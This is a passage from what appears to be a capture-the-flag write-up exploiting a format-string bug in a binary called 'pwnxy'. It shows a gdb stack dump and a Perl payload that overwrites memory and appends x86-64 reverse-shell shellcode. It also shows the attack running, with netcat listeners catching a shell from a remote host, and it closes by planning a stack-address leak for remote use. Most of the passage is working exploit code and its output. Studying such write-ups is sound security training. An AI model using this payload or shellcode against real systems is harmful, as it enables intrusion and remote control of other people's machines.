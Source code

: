 ```
	0x7fffffffda80:	0x7839383125414141	0x43436e2438333025
	0x7fffffffda90:	0x3330257834323025	0x33302543436e2439
	0x7fffffffdaa0:	0x6e24303430257835	0x2578343532254343
	0x7fffffffdab0:	0x2543436e24313430	0x3234302578343532
	0x7fffffffdac0:	0x3632312543436e24	0x436e243334302578
	0x7fffffffdad0:	0x3025783732312543	0x322543436e243434
	0x7fffffffdae0:	0x2435343025783435	0x434343434343436e
	0x7fffffffdaf0:	0x0000000000602078	0x0000000000602079
	0x7fffffffdb00:	0x000000000060207a	0x000000000060207b
	0x7fffffffdb10:	0x000000000060207c	0x000000000060207d
	0x7fffffffdb20:	0x000000000060207e	0x000000000060207f
	0x7fffffffdb30:	0x9090909090909090	0x9090909090909090
	0x7fffffffdb40:	0x9090909090909090	0x9090909090909090
```
The nop sled starts from 0x7fffffffdb30. Let's say that the goal address is: 0x7fffffffdb40.
Adjust the values on the format string:
```
	Old: 0xc0	0xda	0xff	0xff	0xff	0x7f	0x00	0x00
	New: 0x40	0xdb	0xff	0xff	0xff	0x7f	0x00	0x00
```
```
	perl -e 'print "AAA%061x" .                                           \
	"%038\$nCC%153x"."%039\$nCC%034x"."%040\$nCC%254x"."%041\$nCC%254x".  \
	"%042\$nCC%126x"."%043\$nCC%127x"."%044\$nCC%254x"."%045\$nCCCCCCC".  \
	"\x78\x20\x60\x00\x00\x00\x00\x00"."\x79\x20\x60\x00\x00\x00\x00\x00".\
	"\x7a\x20\x60\x00\x00\x00\x00\x00"."\x7b\x20\x60\x00\x00\x00\x00\x00".\
	"\x7c\x20\x60\x00\x00\x00\x00\x00"."\x7d\x20\x60\x00\x00\x00\x00\x00".\
	"\x7e\x20\x60\x00\x00\x00\x00\x00"."\x7f\x20\x60\x00\x00\x00\x00\x00".\
	"\x90"x100 .                                                          \
	"\x31\xf6\xf7\xe6\xff\xc6\x6a\x02\x5f\x04\x29\x0f\x05\x50\x5f\x52\x52\xc7\x44\x24\x04\x80\xd3\xbd\x54\x66\xc7\x44\x24\x02\x11\x5c\xc6\x04\x24\x02\x54\x5e\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\x56\x5a\x56\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x0f\x05".\
	"A"x40'
```
___
Now it's time for the attack:
```
--------------- TERMINAL 1 ---------------
root@xrysa4 # perl -e 'print "our_buffer"' | nc -nvvl -p80
	Listening on [0.0.0.0] (family 0, port 80)

(we need root access to listen on port <1024)

--------------- TERMINAL 3 ---------------
ispo@xrysa4 ~ $ echo "GET http://ispo.ddns.net/"  | ./pwnxy 


--------------- TERMINAL 2 ---------------
ispo@xrysa4 ~ $ nc -nlvv -p 4444
	Listening on [0.0.0.0] (family 0, port 4444)
	Connection from [128.211.189.84] port 4444 [tcp] accepted (family 2, sport 54061)
	whoami
		ispo
```
___
The exploit works fine locally. Let's make it work remotely. In order to do that we have to leak 
somehow an address from the stack and calculate the address of the shellcode in the remote server.
But wait... we have already leaked an address!
```assembly
Breakpoint 2, 0x0000000000401026 in getpage ()
1: x/i $pc
=> 0x401026 <getpage+960>:	mov    -0x14(%rbp),%eax
(gdb) i r rbp rsp
```